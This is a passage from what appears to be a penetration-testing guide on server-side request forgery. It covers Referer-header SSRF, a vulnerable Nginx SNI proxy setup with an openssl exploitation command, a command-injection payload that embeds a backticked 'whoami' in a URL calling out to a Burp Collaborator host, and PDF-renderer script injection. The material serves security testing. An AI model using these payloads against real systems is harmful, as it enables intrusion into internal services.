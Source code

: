 ## SSRF via Referrer header & Others

Analytics software on servers often logs the Referrer header to track incoming links, a practice that inadvertently exposes applications to Server-Side Request Forgery (SSRF) vulnerabilities. This is because such software may visit external URLs mentioned in the Referrer header to analyze referral site content. To uncover these vulnerabilities, the Burp Suite plugin "**Collaborator Everywhere**" is advised, leveraging the way analytics tools process the Referer header to identify potential SSRF attack surfaces.

## SSRF via SNI data from certificate

A misconfiguration that could enable the connection to any backend through a simple setup is illustrated with an example Nginx configuration:

```
stream {
    server {
        listen 443; 
        resolver 127.0.0.11;
        proxy_pass $ssl_preread_server_name:443;       
        ssl_preread on;
    }
}
```

In this configuration, the value from the Server Name Indication (SNI) field is directly utilized as the backend's address. This setup exposes a vulnerability to Server-Side Request Forgery (SSRF), which can be exploited by merely specifying the desired IP address or domain name in the SNI field. An exploitation example to force a connection to an arbitrary backend, such as `internal.host.com`, using the `openssl` command is given below:

```bash
openssl s_client -connect target.com:443 -servername "internal.host.com" -crlf
```

## [Wget file upload](../file-upload/#wget-file-upload-ssrf-trick)

## SSRF with Command Injection

It might be worth trying a payload like: `` url=http://3iufty2q67fuy2dew3yug4f34.burpcollaborator.net?`whoami` ``

## PDFs Rendering

If the web page is automatically creating a PDF with some information you have provided, you can **insert some JS that will be executed by the PDF creator** itself (the server) while creating the PDF and you will be able to abuse a SSRF. [**Find more information here**](../xss-cross-site-scripting/server-side-xss-dynamic-pdf.md)**.**

## From SSRF to DoS
